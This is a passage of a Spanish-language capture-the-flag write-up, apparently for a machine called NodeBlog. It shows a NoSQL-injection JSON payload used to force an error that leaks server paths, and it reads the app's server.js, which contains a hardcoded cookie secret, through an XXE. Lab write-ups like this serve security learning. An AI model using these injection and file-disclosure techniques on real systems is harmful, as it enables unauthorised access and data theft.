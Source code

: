 Observamos que se ha ejecutado correctamente el comando, por lo tanto, explotamos el XXE, ahora lo utilizaremos para revisar diversas rutas e información del sistema, en la captura de nmap observamos que está el servidor de node.js normalmente en este tipo de proyectos hay diferentes archivos, uno en especial podríamos ver el llamado server.js, que quiźas podría contener información que nos ayude, sin embargo, no conocemos las rutas del sistema, pero como tenemos una injección noSQL podemos provocar un error y así ver si nos ofrece información de los directorios:
```
{"user": "admin", "password": {^^^"asdasd$ne": "zapato"}}a
```
Al ingresar este **json** con error podemos observar lo siguiente:

```
SyntaxError: Unexpected token ^ in JSON at position 31<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:89:19)<
```

Observamos una dirección **/opt/blog** en donde se encuentra el **node_modules**, por lo tanto, ahi debe estar el servidor web js. En el **XXE** vamos a introducir la dirección **/opt/blog/server.js**, como resultado tenemos:

![](/imagenes/NodeBlog/node12.png)

Tenemos el siguiente código en js:

```js
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
```